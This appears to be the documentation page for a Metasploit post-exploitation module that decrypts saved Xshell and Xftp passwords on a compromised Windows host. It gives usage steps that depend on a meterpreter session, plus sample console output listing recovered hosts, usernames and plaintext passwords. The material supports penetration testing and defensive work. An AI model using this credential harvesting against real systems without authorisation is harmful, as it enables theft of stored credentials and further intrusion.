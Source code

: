 ## Vulnerable Application

This module can decrypt the password of xshell and xftp, If the user chooses to remember the password.

  Analysis of encryption algorithm [here](https://github.com/HyperSine/how-does-Xmanager-encrypt-password).

  You can find its official website [here](https://www.netsarang.com/).

## Verification Steps

  1. Download the latest installer of Xshell or Xftp.
  2. Use xshell to log in to ssh or xftp to log in to ftp.
  3. Remember to save the account password.
  4. Get a `meterpreter` session on a Windows host.
  5. Do: ```run post/windows/gather/credentials/xshell_xftp_password```
  6. If the session file is saved in the system, the host, port, user name and plaintext password will be printed.

## Options

### MASTER_PASSWORD

  - Specify user's master password, e.g.:123456'

## Scenarios

```
meterpreter > run post/windows/gather/credentials/xshell_xftp_password 

[*] Gather Xshell and Xftp Passwords on WIN-A18RNMNL9C2
[-] Unexpected Windows error 1332
[*] Search session files on C:\Users\Administrator\Documents\NetSarang
[*] Search session files on C:\Users\Administrator\Documents\NetSarang Computer\6
[-] Invalid MASTER_PASSWORD, Decryption failed!
Xshell and Xftp Password
========================

Type         Name              Host            Port  UserName  Plaintext  Password
----         ----              ----            ----  --------  ---------  --------
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      yhmb27u7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd                sQsnGxC7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xshell_V5.3  session.xsh      192.168.76.134  22    kt        123456     l03cn+pMjZae727K08KaOmKSgOaGzww/XVqGr/PKEgIMkjrcbJI=
Xshell_V6.0  session.xsh                      22    kt                   

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200610071906_default_192.168.76.132_host.xshell_xftp_138987.txt
meterpreter > 
```

* Specify **MASTER_PASSWORD**

```
meterpreter > run post/windows/gather/credentials/xshell_xftp_password MASTER_PASSWORD=123456

[*] Gather Xshell and Xftp Passwords on WIN-A18RNMNL9C2
[-] Unexpected Windows error 1332
[*] Search session files on C:\Users\Administrator\Documents\NetSarang
[*] Search session files on C:\Users\Administrator\Documents\NetSarang Computer\6
Xshell and Xftp Password
========================

Type         Name              Host            Port  UserName  Plaintext  Password
----         ----              ----            ----  --------  ---------  --------
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      yhmb27u7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xftp_V5.3    session.xfp      192.168.76.1    2121  lftpd     lftpd      sQsnGxC7ThR1+BNb5T+/aaps3NvoY3zmr7pVLjWIgfdsyVeHMA==
Xshell_V5.3  session.xsh      192.168.76.134  22    kt        123456     l03cn+pMjZae727K08KaOmKSgOaGzww/XVqGr/PKEgIMkjrcbJI=
Xshell_V6.0  session.xsh                      22    kt                   

[+] Passwords stored in: /home/kali-team/.msf4/loot/20200610072134_default_192.168.76.132_host.xshell_xftp_307846.txt
meterpreter > 

```
